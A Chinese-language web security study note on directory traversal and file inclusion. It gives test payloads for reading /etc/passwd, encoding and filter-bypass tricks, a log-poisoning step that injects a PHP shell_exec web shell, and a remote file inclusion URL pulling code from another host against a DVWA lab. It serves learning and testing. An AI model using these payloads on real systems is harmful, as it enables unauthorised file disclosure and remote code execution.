


# 内容泄露

### 危害: 信息的泄露,可能可以写文件,远程执行代码

## 0x01 目录遍历(Directory traversal)
成因  
> 目录权限权限限制不严,可以读取显现本地的文件,甚至是www目录以外的文件
**注意**  
路径遍历(Directory/Path Browsering)
> 在浏览器上可以列出www目录以内的目录列表列出来,不要把这种漏洞和目录遍历漏洞混淆.

## 0x02 文件包含
成因  
> 使用了文件包含函数,读取显示文件  
分类
1. 本地文件包含(LFI),可以读取显示或执行本地文件
2. 远程文件包含(RFI),可以读取显示或执行本地和远程的文件
> 前提条件:php.ini(存储位置举例/etc/php5/cgi/php.ini)配置文件中的`allow_url_include = On`


## 0x03 以上漏洞的挖掘
### 关注特征
```
?page=a.php
?home=b.html
?file=content
../
等等
```
### 经典测试方法
```
?file=../../../../etc/passwd 
?page=file:///etc/passwd  #使用文件系统,只能使用绝对路径
?page=http://www.a.com/1.php #可以直接远程调用网马
?home=main.cgi 
http://1.1.1.1/../../../../dir/file.txt
```


### 注意点
#### 不同操作系统的路径特征字符
- 类Unix系统
  - 根目录/
  - 目录层级分隔符:/
- Windows系统
  - c:\
  - 分隔符 `\` 也有可能是 `/`

#### 其他
**注意** 不仅仅可能出现在url上,可能出现在所有变量.包括Cookie.举例
  


### 限制绕过
#### 编码绕过
```
自动添加.php结尾
php5.3以前的版本(加一个".")
../../file.
或(使用null 的URL 编码%00)
../../file%00  (应用会替换成file%00.php)
```
- URL编码(`../`对应 `%2e%2e%2f`)
- 双层URL编码
- Unicode/UTF-8编码

#### 黑名单替换绕过
- 大小写绕过
- 拆分绕过如`hthttp://tp://` (例如应用替换http://为空)

#### 使用特殊字符
```
file.txt...
file.txt<space><space>多个空格
file.txt"""""
file.txt<<<>>>
././././file.txt
pathnoexist/../../../../etc/passwd
```
#### Window系统尝试
```
\\1.1.1.1.\path\to\file.txt
```
#### 字典Fuzz
> Kali里的字典路径
> /usr/share/wfuzz/wordlist/vulns/dirTraversal.txt 和 /usr/share/wfuzz/wordlist/vulns/dirTraversal-nix.txt

#### 本地文件包含执行代码姿势
- 利用access.log(条件,www-data对/var/log/apache2/access.log有访问条件)
```
nc ip 80
输入类似:<?php echo shell_exec($_GET['cmd']);?>
```
内容比较乱,但是还是顺利执行了.
  

#### 远程文件包含
构造形如`http://192.168.0.107/dvwa/vulnerabilities/fi/?page=httP://192.168.0.102/&cmd=ls`即可执行远程代码
